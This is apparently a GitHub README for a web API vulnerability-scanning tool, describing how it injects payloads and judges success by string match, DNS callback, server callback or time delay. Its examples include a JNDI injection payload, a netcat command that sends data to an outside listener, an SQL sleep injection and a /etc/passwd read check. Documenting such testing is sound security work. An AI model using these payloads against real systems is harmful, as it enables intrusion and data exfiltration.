








# Web-API-Security-Detection-System
## Overall Architecture


1、The Interface Collector is responsible for receiving the Web API interfaces that need to be tested and importing them into memory for the Parser to retrieve and parse.

2、The Parser is responsible for parsing the Web API interface packets, i.e., parsing the HTTP packets and storing them into the class objects implemented by the system.

3、The Generator is responsible for receiving payload samples and importing them into memory for the Tester to retrieve and inject into HTTP packets.

 4、The Tester is responsible for injecting payloads into HTTP test packets according to the injection method set by the security tester, reconstructing the packets, sending an HTTP request, and finally retrieving the response and storing it in memory for the Judger to make a judgment.

 5、The Judger is responsible for judging the results of the request according to the judgment method set by the security tester, using the success or failure of the payload testing as the basis to determine whether the Web API interface has security vulnerabilities.

## Tips

### Proxy


Use Proxy Module：Get the Web API of the proxy panel in Burp Suite

Local File：Bulk import Web APIs locally

### Input



Payload options：Bulk importing payloads, but they have not yet been involved in system operation and are not currently supported

### judge



#### String Judge：

String Judgment requires the security tester to provide a feature identifier (supports regular expressions). The system obtains the response packet of the message, and then matches whether the feature identifier provided by the security tester appears in the response message through regular expression matching. If yes, the test is considered successful; otherwise, it is considered a failure.

①Given a judgment string, such as the characteristic string ".\*root.\*" when detecting the CVE-2021-41773 vulnerability, judge whether to read the /etc/passwd file



②Specify the load injection method and select the String judgment method


③Click the start button, then click on the response packet of the successfully tested message, and you can see that the feature string "root" does appear.




#### Dnslog Judge

DNSlog Judgment requires the security tester to provide an address to query the DNSlog results. Currently, the Web API Security Detection System only supports querying the Ceye platform(http://ceye.io/). When selecting DNSlog Judgment, the tester needs to provide their own Ceye identifier and Ceye API Token, and use "${ceyeDNSDomain}" in the payload to indicate the location to replace the Ceye identifier. Then, when the system sends a request for the attack payload message that contains the specified Ceye identifier to initiate a DNSlog query, it uses the Token provided by the security tester to send a query request to the query interface of the Ceye platform. If there is a record of this message, the test is considered successful; otherwise, it is considered a failure. 

①Log in to the CCeye platform, obtain the identifier and token, and output them to the specified location.



②Test JNDI injection using the payload ${jndi:ldap://${ceyeDnsDomain}. The system will replace ${ceyeDnsDomain} with fpz8if.ceye.io (the identifier provided by the tester), and carry the ID of the message. Choose the DNSlog judgment method.



③Click the start button and view the ID of the successfully tested message on the Ceye platform. It can be observed that the system attaches the ID of each message when testing, in order to distinguish which message has been successfully tested. Additionally, the system uses the token provided by the tester to retrieve the request result from the Ceye platform.


#### Server Judge

The security tester needs to provide serverIP, serverPort, fileNAME, and filePORT, and use "${serverIp}" and "${serverPort}" in the payload to indicate the locations to replace the server IP and server port. Two scripts need to be run on the specified server (serverIP): the first script establishes a listener on the specified port (serverPort) and saves the received information to the specified file (fileNAME); 

```
import asyncio

# 定义一个IP地址和端口号
host = "0.0.0.0" # 监听所有网卡
port = 9000  #serverPort

# 定义一个处理函数，用于接收数据并将其存储到文件中
async def handle_client(reader, writer):
    # 读取数据
    data = await reader.read(1024)
    if not data:
        return
    
    # 将接收到的数据写入文件
    with open('received_data.txt', 'a') as f:  #fileNAME
        f.write(str(writer.get_extra_info('peername')) + ': ' + data.decode() + '\n')
    
    # 关闭连接
    writer.close()

# 启动服务器并接收连接
async def main():
    server = await asyncio.start_server(handle_client, host, port)
    async with server:
        await server.serve_forever()

# 开始运行程序
asyncio.run(main())
```

the second script opens a web service on the specified file port (filePORT) at the location of the file(fileNAME) using Python's httpserver. 

```
from http.server import HTTPServer, SimpleHTTPRequestHandler

class MyRequestHandler(SimpleHTTPRequestHandler):
    
    # 重写do_GET方法，在请求某个资源时进行权限控制
    def do_GET(self):
        if self.path != '/received_data.txt':
            self.send_error(404, "File not found")
        else:
            return super().do_GET()

# 指定监听地址和端口号
host = ''
port = 8000 #filePORT

# 创建HTTP服务器，并指定请求处理函数
httpd = HTTPServer((host, port), MyRequestHandler)

# 启动HTTP服务器
print(f"Server started on http://{host}:{port}")
httpd.serve_forever()
```

If the payload attack is successful, the target system will send information with a number to the pre-specified server and port. At the same time, the Web API Security Detection System sends a request to "http://serverIP:filePORT/fileNAME" to obtain the file content and searches the file content for the number of a certain message. If the number is found, the test is considered successful; otherwise, it is considered a failure

①First, run the above two pieces of code on the server, and input serverIP, serverPORT, fileNAME, and filePORT in the server judgment method as shown below.



②Test the RCE vulnerability using the payload "echo ${replace} | nc64.exe ${serverIp} ${serverPort}". The system will replace ${replace} with the ID of each packet to distinguish different messages, and replace ${serverIp} and ${serverPort} with 192.168.28.128 and 9000 respectively. Choose the Server judgment method.


③Click the Start button, and you can see that the message with ID 1774649420 has been successfully tested.


#### Time Delay Judge

Time Delay requires the security tester to provide a delay time length. The system records the request time for each message when making a request. If a payload test succeeds in causing the target system to delay the response for a specified time length, the request time of the message will be extended. At this time, if the system compares the request time and finds that it is greater than the specified delay time, the test is considered successful; otherwise, it is considered a failure

①Set the time delay to 5 seconds.


②Test SQL injection using the payload ""-1 or sleep(5)", and choose the Time Delay judgment method.


③Click the Start button to start the test. It can be observed that the response time of the message with ID 233123283 exceeds 5 seconds, indicating the presence of an SQL injection vulnerability.



### excute


At the top is the display panel for the imported Web API interface. In the middle, the content of each message can be seen, and at the bottom, the judgment method can be selected for payload injection. The Tips box provides specific usage instructions.As shown below:

```
Add method: Add fields without overwriting existing fields with the same name
    Header position:  Add fields to the request header
        Inner:{
            Explain:To add to a particular field, add 'the name of the field + :' before the key to indicate which field to add it to. If there is no existing external field, construct a new field and add it to the Header. At most two levels of 'key1:key2' are supported.
            key format: "The outer field name : the inner field name"
            value format:none
            Example:key="Cookie:name",value="456"，At this point, 'Cookie:name' is being split into 'Cookie' and 'name'
            Cookie: name=123 
           	👇
            Cookie: name=123(reserve)
            Cookie:name=456
        }
        Outer：{
            Explain:Added directly to the end of the Header, closest to the body position.
            key format: none
            value format:none
            Example：key="Cookie:name",value="456",At this point, 'Cookie:name' is the entire field
            Cookie: name=123 
            👇
            Cookie: name=123(reserve)
            Cookie:name:456
        }
    Path position:Add the value to the path
        Inner:none
        Outer:none
        {
            Explain:In the Add function, taking the path /a/b/c/ as an example, the location of the value injection is divided into "0 /a 1 /b 2 /c 3". The key value must be a number, indicating where to insert it into the path. If the key value is less than 0, it is added to the beginning of the path by default. If it exceeds the maximum number of positions, it is added to the end of the path by default.
            key format:Must be a number
            value format :none
            Example:key="2",value="d"
            /a/b/c/
            👇
            /a/b/d/c
        }
    Param position:Add fields to the GET parameters
        Inner:{
            Explain:Add fields directly to the beginning of the parameters
            key format:none
            value format:none
            Example: key="id1",value="3"
            /a/b/c?id1=1&id2=2
            👇
            /a/b/c?id1=3&id1=1&id2=2
        }
        Outer:{
            Explain:Add fields directly to the end of the parameters
            key format:none
            value format:none
            Example: key="id1",value="3"
            /a/b/c?id1=1&id2=2
            👇
            /a/b/c?id1=1&id2=2&id1=3
        }
    Body position: support application/x-www-form-urlencoded、multipart/form-data, 
    	 application/json、application/xml and text/xml are supported only by the Clean method
        application/x-www-form-urlencoded: URL encoding, default parameter structure "a=b&c=d"
            Inner:{
                Explain:Similar to inserting GET parameters, add directly to the beginning of the parameters
                key format:none
                value format:none
                Example: key="id1",value="3"
                id1=1&id2=2
                👇
                id1=3&id1=1&id2=2
            }
            Outer：{
                Explain:Similar to inserting GET parameters, add directly to the end of the parameters
                key format:none
                value format:none
                Example: key="id1",value="3"
                id1=1&id2=2
                👇
                id1=1&id2=2&id1=3
            }
        multipart/form-data: Supports file format and table format (username and password)
            File format:
                Inner:{
                    Explain:Add to the beginning of the data sequence
                    key format: name:filename:Content-Type
                    value format:none
                    Example: key="file1:file2:text/plain",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file2"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                }
                Outer:{
                    Explain:Add to the end of the data sequence
                    key format: name:filename:Content-Type
                    value format:none
                    Example: key="file1:file2:text/plain",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    👇
                
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file2"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            Table format:
                Inner:{
                    Explain:Add to the beginning of the data sequence
                    key format: name:null(constant):null(constant)
                    value format:none
                    Example: key="name1:null:null",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                }
                Outer:{
                    Explain:Add to the end of the data sequence
                    key format: name:null(constant):null(constant)
                    value format:none
                    Example: key="file1:null:null",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                }
Cover:  Overwrite fields with the same name
    Header position: Overwrite same-named fields in the request header. If the field does not exist, it will be added by default
        Inner:
            Explain:Overwrite the same-named inner field within a particular outer field. If the outer field or inner field does not exist, it will be added. Add 'the name of the outer field + :' before the key to indicate which outer field to add it to. If there is no existing external field, construct a new field and add it to the Header. At most two levels of 'key1:key2' are supported
            key format: "The outer field name : the inner field name"
            value format:none
            Example: key="Cookie:name",value="456".At this point, 'Cookie:name' is being split into 'Cookie' and 'name'
            Cookie: name=123 
            👇
            Cookie: name=456
        }
        Outer:{
            Explain：Added directly to the end of the header, closest to the body position
            key format： none
            value format：none
            Example：key="Cookie:name",value="456",At this point, 'Cookie:name' is the entire field
            Cookie: name=123 
            👇
            Cookie: name=123
            Cookie:name:456
        }
    Path position:   Overwrite a subpath of the path specified by the key
        Inner:none
        Outer:none
        {
            Explain:In the Cover function, taking the path /a/b/c/ as an example, the location of the value injection is divided into /a(0) /b(1) /c(2). The key value must be a number, indicating which part of the path to overwrite. If the key value is less than 0, the default is to overwrite the front part of the path, such as the 0th position. If it exceeds the maximum position, it defaults to overwrite the back part of the path, such as the 2nd position
            key format:Must be a number
            value format:none
            Example:key="2",value="d"
            /a/b/c/
            👇
            /a/d/c
        }
    Param position:   Overwrite same-named fields in the GET parameters
        Inner:none
        Outer:none
        {
            Explain:Overwrite same-named fields directly. If it does not exist, it will be added to the end of the parameters by default
            key format:none
            value format:none
            Example: key="id1",value="3"
            /a/b/c?id1=1&id2=2
            👇
            /a/b/c?id1=3&id2=2
        }
    Body position:   support application/x-www-form-urlencoded、multipart/form-data
        application/x-www-form-urlencoded:
            Inner:none
            Outer:none
            {
                Explain:Similar to overwriting GET parameters, overwrite same-named fields. If it does not exist, it will be added to the end of the parameters
                key format:none
                value format:none
                Example: key="id1",value="3"
                id1=1&id2=2
                👇
                id1=3&id2=2
            }
        multipart/form-data:
            File format:
                Inner:none
                Outer:none
                {
                    Explain:Overwrite data segments with the same name, filename, and Content-type. If there is no match, it will be added to the end of the data sequence
                    key format: name:filename:Content-Type
                    value format:none
                    Example: key="file:xxx.txt:text/plain",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            Table format:
                Inner:none
                Outer:none
                {
                    Explain:Overwrite data segments with the same name. If it does not exist, it will be added to the end of the data sequence
                    key format: name:null(constant):null(constant)
                    value format:none
                    Example: key="name1:null:null",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                }
Clean:  Clear all existing fields, then add new fields
    Header position: none
    Path position:
        Inner:none
        Outer:none
        {
            Explain: Clear the entire path, then assign a new value to the end with a '/' added before the value
            key format:Ignore
            value format:none
            Example:value="d"
            /a/b/c/
            👇
            /d
        }
    Param position:
        Inner:none
        Outer:none
        {
            Explain: Clear all parameters and assign them as key + '=' + value
            key format:none
            value format:none
            Example: key="id3",value="3"
            /a/b/c?id1=1&id2=2
            👇
            /a/b/c?id3=3
        }
    Body position: support application/x-www-form-urlencoded、multipart/form-data、application/json、application/xml and text/xml
        application/x-www-form-urlencoded:
            Inner:none
            Outer:none
            {
                Explain: Clear all parameters and assign them as key + '=' + value
                key format:none
                value format:none
                Example: key="id3",value="3"
                id1=1&id2=2
                👇
                id3=3
            }
        multipart/form-data:
            File format:
                Inner:none
                Outer:none
                {
                    Explain:Clear all data segments and assign new fields
                    key format：:name:filename:Content-Type
                    value format:none
                    Example: key="file1:file1.txt:text/plain",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file1.txt"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            Table format:
                Inner:none
                Outer:none
                {
                    Explain:Clear all data segments and assign new fields
                    key format: name:null(constant):null(constant)
                    value format:none
                    Example: key="name2:null:null",value="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    👇
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name2"

                    3
                    -----------------------------195784179425668763703025983801
                }
        application/json:
            Inner:none
            Outer:none
            {
                Explain:Clear the entire JSON data and assign it as value
                key format: ignore
                value format:JSON format data
                Example:none
            }
        application/xml 和 text/xml:
            Inner:none
            Outer:none
            {
                Explain:Clear the entire XML data and assign it as value
                key format: ignore
                value format:XML format data
                Example:none
            }
```

